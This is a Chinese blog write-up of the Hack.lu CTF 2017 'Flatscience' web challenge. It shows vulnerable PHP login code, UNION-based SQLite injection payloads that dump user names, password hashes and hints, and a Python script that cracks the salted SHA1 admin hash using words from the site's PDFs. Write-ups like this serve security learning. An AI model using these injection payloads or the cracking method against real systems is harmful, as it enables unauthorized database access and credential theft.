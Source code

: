 ```yaml
---
title: "Hack.lu CTF 2017-Flatscience-writeup"
categories: [ "CTF" ]
tags: [ "CTF","CTF writeup" ]
draft: false
slug: "6"
date: "2018-12-17 20:12:00"
---
```


- 为什么要写 2017 年的题的 writeup：因为在做某 CTF 训练平台的题，照着 Chybeta 大佬的 writeup 做了一遍

首先，给我们分配了一个地址和端口号，打开看一下：

![][1]

分别点一下，好像都差不多，全部都会跳转到各种英文的 pdf，看不懂，那就走流程吧：

- 源码：没啥特殊的
- robots.txt：有发现

  ![][2]

- 分析流量：由于上一步 robots.txt 有发现所以这一步就省了（此处只是为了说明常见** ctf 的题 web 处理步骤三部曲 **）

可以看到一个`login.php`，一个`admin.php`

`login.php`：

![][3]

`admin.php`：

![][4]

看一下`login.php`的源代码，发现提示：

![][5]

一个待办事项：删除?debug 参数

哦~作者注释要删掉，那我们看一下删掉没(假装不知道)，发现没删掉：

![][6]

而且发现就是这个页面的源代码：

```
<?php
if(isset($_POST['usr']) && isset($_POST['pw'])){
        $user = $_POST['usr'];
        $pass = $_POST['pw'];

        $db = new SQLite3('../fancy.db');

        $res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
    if($res){
        $row = $res->fetchArray();
    }
    else{
        echo "<br>Some Error occourred!";
    }

    if(isset($row['id'])){
            setcookie('name',' '.$row['name'], time() + 60, '/');
            header("Location: /");
            die();
    }

}

if(isset($_GET['debug']))
highlight_file('login.php');
?>
```

可以看到这个源代码

- 将 POST 进去的 usr 和 pw 参数不做任何过滤，带入 sql 查询(数据库为 sqllite，就要想到 sqlite 的系统表为 sqlite_master)。

- 若查询的结果 id 字段不为空，则执行 setcookie 操作，会将查询的结果 name 字段插入到 cookie 中。

那么知道了查询语句执行的操作之后，我们就要准备 SQL 注入查询点东西了，先看下原来发包的格式
![][7]
![][8]

- 构造 post:
  `usr=%27 UNION SELECT name, sql from sqlite_master--+&pw=soap`
- sql 注入的结果是：
  `SELECT id,name from Users where name='' union select name, sql from sqlite_master-- and password= 'soap'`
  id 值其实是表的名字（name），而得到的 name 值其实是创建表时的语句（sql）。
  ![][9]

- Tips:从这个查询结果我们可以看出，只返回第二个字段处的值

URL 解码，%2C 转为回车，得到 sql 语句：

```
CREATE TABLE Users(
id int primary key,
name varchar(255),
password varchar(255),
hint varchar(255)
)
```

- 从这个语句我们知道当前表是 Users 表，有四列，结合前面的只返回第二个位置的值我们可以构造如下注入语句

```
usr=%27 UNION SELECT id, id from Users limit 0,1--+&pw=soap
usr=%27 UNION SELECT id, name from Users limit 0,1--+&pw=soap
usr=%27 UNION SELECT id, password from Users limit 0,1--+&pw=soap
usr=%27 UNION SELECT id, hint from Users limit 0,1--+&pw=soap
```

通过偏移(也就是后面的 limit 0,1;limit 1,1;limit 2,1)，可以得到如下数据：
| name | password | hint |
| ----- | ------------------------------ | ------------------------------- |
| admin | 3fab54a50e770d830c0416df817567662a9dc85c | my fav word in my fav paper?! |
| fritze | 54eae8935c90f467427f05e4ece82cf569f89507 | my love is…? |
| hansi | 34b0bb7c304949f9ff2fc101eef0f048be10d3bd | the password is password |

- 发现能够解开 2，3 的 sha1，而 1 的 sha1 无法解开。表的信息都有了,flag 呢？

结合源码：

```
$res = $db->query("SELECT id,name from Users where name='".$user."' and password='".sha1($pass."Salz!")."'");
```

和 hint：`my fav word in my fav paper?!`意思让你在网站的所有 pdf 中找到最喜欢的词

将网站上的所有 pdf 下载下来，我们这里用 wget 递归下载：`wget xxx.com -r -np -nd -A .pdf`

- -r：层叠递归处理
- -np：不向上（url 路径）递归
- -nd：不创建和 web 网站相同（url 路径）的目录结构
- -A type：文件类型
  ![][10]

然后我们需要提取所有 pdf 中的单词，并挨个拿去做 sha1(\$pass."Salz!")操作，如果值和 admin 的密码的 sha1 相等，则是出题人最喜欢的单词，大佬们都是用 python 去转换 pdf 获取 text，我这里使用了一个小工具：`PDF Shaper Pro` [蓝奏网盘下载][11]

里面有 pdf 转换为 text 的功能，但是可能会有一点点识别错误以及换行处字符缺失问题：

![][12]

但是我们只是找一个单词，为了节约时间可以这么做：

![][13]

如果找不到再上 Python 脚本嘛：[传送门][14]

解决了文本问题，那么就只需要 os 库遍历目录下所有文本文件，re 匹配出所有单词拿去比较就 OK 了，脚本如下：

```
# !/usr/bin/python
# -  *  - coding:utf-8 -  *  -
'''
@author: soapffz
@fucntion:
@time: 2018-12-17
'''

import os
import re
import hashlib


def get_words():
    txt_name_list = [i for i in os.listdir("Tmp")] # 获得所有txt名字
    os.chdir("Tmp")  # 切换工作目录
    words_list = []  # 存放不重复的所有txt的单词
    for i in range(len(txt_name_list)):
        with open(txt_name_list[i], 'r')as f:
            words = re.findall('[A-Za-z]+', f.read())  # 正则表达式匹配单词
            for i in words:  # 这里生成的words是一个列表，不能直接加入到words_list，不然就变成二层列表了
                if i not in words_list:
                    words_list.append(i)
    return words_list


def find_passwd():
    words_list = get_words()
    for word in words_list:
        sha1_password = hashlib.sha1(
            (word + "Salz!").encode()).hexdigest()  # 这里需用encode()转化为bytes格式
        if sha1_password == '3fab54a50e770d830c0416df817567662a9dc85c':
            print("Find the password :" + word)
            exit()


if __name__ == "__main__":
    find_passwd()


```

运气不错，找到了匹配值：

![][15]

得到 admin 密码为：`ThinJerboa`

访问 `admin.php` 登陆得到 flag：

![][16]

`flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}`

- 文章参考链接：https://chybeta.github.io/2017/10/22/Hack-lu-CTF-2017-Flatscience-writeup/

[1]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_201424.png
[2]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_201910.png
[3]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_202110.png
[4]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_202206.png
[5]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_202314.png
[6]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_202612.png
[7]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_203925.png
[8]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_204003.png
[9]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_204708.png
[10]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_222327.png
[11]: https://www.lanzous.com/i2mvv1c
[12]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_231210.png
[13]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_225602.png
[14]: https://soapffz.com/python/9.html
[15]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181218_005528.png
[16]: https://img.soapffz.com/archives_img/2018/12/17/archives_20181217_222714.png